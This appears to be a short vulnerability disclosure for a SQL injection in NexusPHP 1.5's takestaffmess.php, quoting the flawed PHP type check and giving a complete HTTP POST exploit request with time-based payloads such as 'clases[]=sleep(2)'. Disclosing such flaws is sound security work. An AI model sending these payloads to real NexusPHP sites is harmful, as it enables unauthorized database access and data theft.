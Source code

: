 # by burpheart


Need get the administrator's identity to complete the attack.

#### Affected software: NexusPHP 1.5

#### Software Download Link: http://sourceforge.net/projects/nexusphp/
  
#### Github Repository https://github.com/ZJUT/NexusPHP

##  Vulnerability details

#### takestaffmess.php:line 16

```	
$updateset = $_POST['clases'];
if (is_array($updateset)) {
	foreach ($updateset as $class) {
		if (!is_valid_id($class) && $class != 0)
			stderr("Error","Invalid Class");
	}
}else{
	if (!is_valid_id($updateset) && $updateset != 0)
		stderr("Error","Invalid Class");
}
$subject = trim($_POST['subject']);
$query = sql_query("SELECT id FROM users WHERE class IN (".implode(",", $updateset).")");
```
Although the source code uses the is_valid_id function to check the contents of the clases but because of the php type conversion when the class is non-numeric when compared to zero will get an equal result and thus is_valid_id is invalid.
#### exploit:
```
POST /takestaffmess.php HTTP/1.1
Host: localhost
Cookie: administrator_cookies
Content-Length: 66
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Connection: Keep-alive
Accept-Encoding: gzip,deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.21 (KHTML, like Gecko) Chrome/41.0.2228.0 Safari/537.21
Accept: */*

clases[]=sleep(2)&msg=1&receiver=1&returnto=&sender=self&subject=1
```

clases[]=sleep(2)&msg=1&receiver=1&returnto=&sender=self&subject=1

The return will be delayed for 2 seconds  

clases[]=sleep(0)&msg=1&receiver=1&returnto=&sender=self&subject=1

The return will be delayed for 0 seconds  
